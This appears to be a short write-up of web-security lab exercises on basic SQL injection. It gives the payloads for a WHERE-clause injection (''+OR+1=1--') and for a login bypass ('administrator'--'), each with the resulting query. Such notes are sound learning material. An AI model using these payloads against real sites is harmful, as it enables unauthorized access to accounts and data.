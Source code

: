 # Basic Injection Attacks

## SQLi using WHERE
>This was was rather simple as it just invovled injecting a conditional into the query. 
>
>Don't forget to substitute spaces with '+' when making requests.
>
>Solution: `'+OR+1=1--`
>
>Final query: 
>``` SQL
>SELECT * FROM table WHERE category = ''+OR+1=1--'AND released = 1
>```
>
<br/>

## SQLi basic application login subversion
>This was was also really easy as you could just comment out the logic related to password checking.
>
>Solution: `administrator'--`
>Final query: 
>```SQL
>                                       |    payload   |
>SELECT name FROM users WHERE username='administrator'--'AND [password checking logic here]
>```
>
<br/>
